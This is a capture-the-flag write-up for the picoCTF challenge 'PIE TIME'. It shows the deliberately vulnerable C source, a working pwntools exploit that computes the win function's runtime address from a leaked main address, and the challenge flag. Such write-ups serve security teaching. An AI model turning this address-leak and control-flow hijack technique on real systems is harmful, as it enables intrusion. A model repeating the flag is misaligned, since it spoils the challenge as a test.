


# TASK1 - Writeup

## Description


## Solution

In this task named PIE TIME we are given a binary named PIE TIME, from the name we can guess that w'll need some knowledge in position independent binaries, the first thing i did was dumping some infos from the binary using `file` utility.


We can see that its a 64bit dynamically linked binary.

After that i inspected the binary using `pwn checksec vuln`.



All the mitigations are enabled.

After reviewing the source code we can see a win function and the program print the address of main at runtime.

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

Basically all we have to do is calculate the offset between main and win function using gdb and then calculate the address of win at runtime.



## Exploit

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template vuln --host rescued-float.picoctf.net --port 58911
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'vuln')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'rescued-float.picoctf.net'
port = int(args.PORT or 59953)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.recvuntil(b'Address of main: ')
main_AT_RUNTIME = int(io.recvline(), 16)
log.success(f'main_AT_RUNTIME @ {hex(main_AT_RUNTIME)}')

offset = exe.symbols['main'] - exe.symbols['win']
log.success(f'DISTANCE BETWEEN MAIN AND WIN FUNCTION = {hex(offset)}')

win_AT_RUNTIME = main_AT_RUNTIME - offset
log.success(f'win_AT_RUNTIME @ {hex(win_AT_RUNTIME)}')

io.sendline(hex(win_AT_RUNTIME).encode())
io.recvuntil(b'You won!\n')

flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")


```

## FLAG

```
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_28a46dcd}
```
